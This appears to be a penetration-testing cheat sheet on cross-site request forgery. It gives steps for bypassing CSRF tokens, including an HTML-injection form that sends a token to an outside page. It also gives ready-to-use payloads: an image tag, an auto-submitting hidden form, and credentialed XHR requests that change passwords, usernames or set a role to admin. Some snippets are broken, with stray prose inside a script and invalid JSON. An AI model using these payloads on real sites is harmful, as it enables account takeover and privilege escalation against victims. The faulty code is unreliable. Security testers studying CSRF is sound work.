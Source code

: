 ```yaml
---
description: Cross Site Request Forgery
---
```


# CSRF

An attack where a victim unknowingly causes their browser to perform an unwanted action on a site where they are already authenticated.  This can be caused via the attacker using some form of social engineering to fool a user into opening a malicious link, e-mail, instant message or program which automates the action.  


An unrealistic and simplified example would be a victim clicking on a link like https://paypal.com/user/sadvictim/sendfunds/99999dollars/touser/bad\_daddy or https://facebook.com/user/ignoramus/changepassword?newpassword=123456 , though the links would be portrayed as something else and the victim already has logged-in cookies to those domains.

The vulnerability is available if you can use the same CSRF token across multiple accounts \(check your cookies to find it\). You can build a poc by...  


* Login to account 1
* Go to password change page
* Capture CSRF token
* Logout and login to account 2 
* Go to password change page
* Intercept request with a proxy and replace token

Or perhaps you can figure out the CSRF token if the implementation sucks.  


* Keep length of token consistent and try replacing characters \(Burp has great intruder functionality for this, or just CSRF test for the lazy\)
* Try removing the token from the request
* Try to decode the CSRF token \(typically MD5 or base64\)
* HTML Injection with something like &lt;form action="url.com/acquire\_token.php"&gt;&lt;/textarea&gt;
* Check to see if part of a token is static and cut off the the dynamic part, I've seen bug bounty write-ups where the web app only checked the first part of the token.

**Common Critical Functions for CSRF**

* Add/Upload files
* Password change
* E-mail change
* Transfer money
* Delete file
* Profile edits

**Via GET request**  
requiring user interaction:  
`<a href="http://site.com/api/setuserpassword=babyboy">Click Me!</a>`  
Not requiring user interaction \(will happen as soon as browser loads\)  
`<img src="http://site.com/api/setuserpassword=badbaby">`

**Via POST request**  


User Interaction Required

```text
<form action="http://site.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="baddaddy" />
 <input type="submit" value="Submit Request" />
</form>
```

User Interaction Not Required

```text
<form id="autosubmit" action="http://site.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="badboy" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```

**Via json GET**

```text
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.xyz.com/api/currentuser");
xhr.send();
</script>
```

**Via json POST**  


```text
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://site.com/api/setrole");
xhr.setRequestHeader("Content-Type", "text/plain");
You will probably want to also try one or both of these
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
_______________________OR______________________________
`<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://site.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>``
```

